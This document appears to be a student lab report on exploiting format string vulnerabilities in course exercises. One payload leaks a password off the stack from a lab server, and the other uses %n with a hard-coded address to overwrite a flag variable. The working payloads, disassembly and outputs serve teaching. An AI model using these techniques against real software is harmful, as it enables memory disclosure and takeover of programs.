 # CS6570 Report Lab 3 Format String Vulnerability

## *Instructions to run:*
* *inputx.py* files when run create *payloadx.exp* file in the directory.
* For Problem 1:
```
$ netcat 10.21.235.155 1023 < payload1.exp 
```
* For Problem 2:
```
$ ./flag < payload2.exp
```

## *Problem 1*
* Password : thispasswordisleakedfromstack
* As mentioned the neccessary bytes are present on the stack thus we make a payload which just prints on the stack information.
* *payload1.exp* has 3 lines for username, password, and last exit line.
* Password line has the payload
* Initial payload used:
```
payload = b"%p."*11 + b"\n"
```
* From the output we see that we have possible alphanumeric values from the 8th element and the next 3 elements on the stack.
* Now we run with the given payload and get the values:
```
payload = b"%8$p." + b"%9$p." + b"%10$p." + b"%11$p."
Output:
0x7373617073696874.0x656c736964726f77.0x6d6f726664656b61.0x6b63617473.
```
* On converting the values to appropriate alphanumeric values we obtain : *thispasswordisleakedfromstack*
* This is the password for the server and on running gives a welcome to lab message.

<div style="page-break-before:always"></div>



## *Problem 2*
* There is a printf vulnerability which stores the input in a given buffer which can be used to access the flag value.
* First we ran the below payload to find the position of the buffer on the stack
```
payload = b"A"*4 + b"|" + b"%x."*10
```
* And we get the output:
```
Your input:
AAAA|f7fa35ee.804821c.80484cd.f7fcdb8c.1.f7f916a0.41414141.252e7825.78252e78.2e78252e.
flag = 0
```
* We get the position of the buffer as 7th position from %esp seeing the 41 value representing 'A'.
* We need to place the address of given flag in the buffer.
* To find it we access objdump of flag and in main we find a *cmp* of eax with 100(0x64).
```
 8048526:	83 c4 10             	add    $0x10,%esp
 8048529:	8b 83 2c 00 00 00    	mov    0x2c(%ebx),%eax
 804852f:	83 f8 64             	cmp    $0x64,%eax
 8048532:	75 14                	jne    8048548 <main+0x92>
 ```
* We see that the address of flag is ebx + 0x2c before instruction 0x0804852f
* On using gdb with breakpoint before the cmp instruction we find the value stored in ebx as 0x0804a000
* Thus the flag address is 0x0804a02c
* We must store the address into the buffer and call send *%7$n* as an input to the buffer.
* To make the value sent to flag as 100(0x64) we send an additional *%96x*.
* Thus the payload is effectively :
```
payload = b"\x2c\xa0\x04\x08"
payload += b"%96x" + b"%7$n"
```

* On running this payload after storing it in payload2.exp :

```
./flag < payload2.exp
```
<div style="page-break-before:always"></div>

* We get output :
```
Your input:
,�                                                                                        f7f8a5ee
flag = 100

The system is compromised
```  
--------
* CS20B021 Chathurvedhi Talapaneni
* CS20B084 Aditya Vaichalkar





